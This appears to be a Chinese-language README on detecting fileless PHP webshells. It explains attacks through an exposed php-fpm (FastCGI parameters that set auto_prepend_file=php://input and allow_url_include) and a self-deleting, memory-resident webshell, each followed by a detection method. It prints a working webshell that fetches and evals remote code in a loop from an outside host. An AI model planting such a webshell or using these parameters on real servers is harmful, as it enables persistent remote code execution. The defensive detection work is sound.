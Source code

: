 ## PHP 无文件webshell检测：

### 一、通过php-fpm未授权访问漏洞攻击
- 攻击方式

当php-fpm对外开放时，通过构造Fastcgi协议（fastcgi协议是服务器中间件和后端进行数据交换的协议），通过向php-fpm发起请求执行任意文件。

php-fpm可以理解为fastcgi协议解析器，
Nginx等服务器中间件将用户请求按照fastcgi的规则打包好通过TCP传给php-fpm，
php-fpm按照fastcgi协议将TCP流解析成真正的数据。

举个栗子：如果我们请求http://127.0.0.1/index.php?a=1&b=2，如果web目录是/var/www/html，那么Nginx会根据该请求生成如下key-value对：

`
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
`

SCRIPT_FILENAME的值指向的PHP文件将会被执行，也就是/var/www/html/index.php。

因此，如果php-fpm对外暴露时，我们通过构造fastcgi协议直接发送给pfp-fpm，将会执行"任意文件"。
值得注意的是，这个任意文件必须是目标服务器上的文件。
如果想执行任意文件的话需要借助auto_prepend_file和auto_append_file。

auto_prepend_file是告诉PHP，在执行目标文件之前，先包含auto_prepend_file中指定的文件；
auto_append_file是告诉PHP，在执行完成目标文件后，包含auto_append_file指向的文件。

假设我们设置auto_prepend_file为php://input，那么就等于在执行任何php文件前都要包含一遍POST的内容。
所以，只需要把待执行的代码放在Body中就能被执行了。（当然，还需要开启远程文件包含选项allow_url_include）

那么如何修改这两个值呢？

这又涉及到PHP-FPM的两个环境变量，PHP_VALUE和PHP_ADMIN_VALUE。
这两个环境变量就是用来设置PHP配置项的，PHP_VALUE可以设置模式为PHP_INI_USER和PHP_INI_ALL的选项，PHP_ADMIN_VALUE可以设置所有选项。
经过测试，disable_functions除外，这个选项是PHP加载的时候就确定了，在范围内的函数直接不会被加载到PHP上下文中，貌似无法修改。

`
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
`

攻击demo可参考：https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

- 检测方式：
通过构建fastcgi客户端向本地php-fpm发送请求，执行本地的phpinfo文件，检查返回的PHP_VALUE和PHP_ADMIN_VALUE中以上敏感字段是否被修改过。
由于可能存在多个worker，因此通过循环请求多次。

### 二、内存驻留webshell
- 攻击方式

php webshell文件执行后删除自身。此webshell在执行后会自身删除，驻留内存之中，无文件残留。其原理主要利用以下方法：

    ignore_user_abort(true); // 后台运行
这个函数的作用是指示服务器端在远程客户端关闭连接后是否继续执行下面的脚本。如设置为True，则表示如果用户停止脚本运行，仍然不影响脚本的运行
    
    set_time_limit(0); // 取消脚本运行时间的超时上限
括号里边的数字是执行时间，如果为零说明永久执行直到程序结束，如果为大于零的数字，则不管程序是否执行完成，到了设定的秒数，程序结束。

脚本也有可能被内置的脚本计时器中断。默认的超时限制为30秒。
这个值可以通过设置 php.ini 的 max_execution_time 或 Apache .conf 设置中对应的“php_value max_execution_time”参数
或者 set_time_limit() 函数来更改。

php删除自身时借助的函数为

    unlink($_SERVER['SCRIPT_FILENAME']);
unlink函数运行条件较为苛刻，该脚本要具备可执行权限、可修改文件权限时方能执行。

简单的webshell脚本：


    <?php
        chmod($_SERVER['SCRIPT_FILENAME'], 0777);
        unlink($_SERVER['SCRIPT_FILENAME']);
        ignore_user_abort(true);
        set_time_limit(0);
        echo "success";
        $remote_file = 'http://10.211.55.2/111/test.txt';
        while($code = file_get_contents($remote_file)){
        @eval($code);
        echo "xunhuan";
        sleep(5);
        };
    ?>

test.txt中的代码如下：

    file_put_contents('printTime.txt','lucifer '.time());
    
webshell执行后，删除自身，并在该目录生成 printTime.txt，每五秒一次写入一次时间戳。

- 检测方式：
通过获取php-fpm status，检查所有php进程处理请求的持续时间，以及执行文件是否存在。
